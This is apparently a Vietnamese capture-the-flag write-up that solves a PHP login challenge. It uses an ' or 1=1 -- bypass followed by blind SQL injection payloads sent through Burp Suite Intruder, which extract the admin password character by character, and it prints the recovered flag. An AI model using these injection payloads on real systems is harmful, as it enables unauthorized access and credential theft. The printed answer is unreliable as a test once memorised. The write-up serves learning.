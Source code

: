 - Đăng nhập với username:  ' or 1=1 --, nhận được đoạn script: 
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

```html
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

=> Flag là mật khẩu của admin

- Dùng Burp Suite để brute force ra mật khẩu của admin
    + Dùng Intruder để lấy độ dài của pass: 
    id=' OR LENGTH(pass)=§§;--&pass=
    => lấy được LENGTH(pass)=21 do khác biệt ở cột Length
    + Tiếp tục dùng Intruder để lấy pass của admin: brute force(a-z0-9A-Z):
    id=admin' and SUBSTR((SELECT pass FROM user WHERE id='admin'),§§,1)='§§';--&pass=
    => lấy được FLAG KpWa4ji3uZk6TrPK
    + Thử các kí tự đặc biệt với phần tử còn trống, lấy được kí tự : _
    =>Flag:  FLAG_KpWa4ji3uZk6TrPK
